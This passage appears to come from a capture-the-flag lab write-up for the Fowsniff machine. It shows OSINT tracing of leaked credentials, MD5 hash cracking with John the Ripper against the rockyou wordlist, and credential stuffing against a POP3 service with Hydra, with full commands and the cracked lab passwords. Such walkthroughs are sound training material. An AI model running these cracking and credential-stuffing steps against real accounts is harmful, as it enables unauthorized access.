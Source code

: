 Let's take a look at port 80 using a web browser (I use Mozilla Firefox) :  
![](https://i.imgur.com/qYdfC5H.jpg)  

So let's take a look at their Twitter account, we should be able to get sensitive information leaked by the attacker :  
![](https://i.imgur.com/6in5bBC.jpg)  

There is a link to a pastebin containing dumped credentials... Let's take a look at it :  
![](https://i.imgur.com/HN6yMB4.jpg)  

The pastebin was removed... Maybe we can find it in the [Wayback Machine](https://archive.org/web) :  
![](https://i.imgur.com/ZyykCKf.jpg)  

## Hash cracking

We have found the set of credentials leaked by the attacker ! Now, let's crack all those hashes :  
```
attacker@AttackBox:~/Fowsniff_CTF$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 128/128 SSE4.1 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
scoobydoo2       (seina@fowsniff)     
orlando12        (parede@fowsniff)     
apples01         (tegel@fowsniff)     
skyler22         (baksteen@fowsniff)     
mailcall         (mauer@fowsniff)     
07011972         (sciana@fowsniff)     
carp4ever        (mursten@fowsniff)     
bilbo101         (mustikka@fowsniff)     
8g 0:00:00:01 DONE (2023-01-13 19:43) 5.714g/s 10245Kp/s 10245Kc/s 26201KC/s  filimani..clarus
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

## POP3 enumeration

We successfully cracked all the hashes ! Now, let's use them with [Hydra](https://github.com/vanhauser-thc/thc-hydra) to find out if anyone forgot to 
change their password on pop3 (I just removed `@fowsniff` from the usernames) :  
```
attacker@AttackBox:~/Fowsniff_CTF$ hydra -C credentials.txt 10.10.255.254 pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-13 19:49:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries, ~1 try per task
[DATA] attacking pop3://10.10.255.254:110/
[110][pop3] host: 10.10.255.254   login: seina   password: scoobydoo2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-13 19:49:33
```
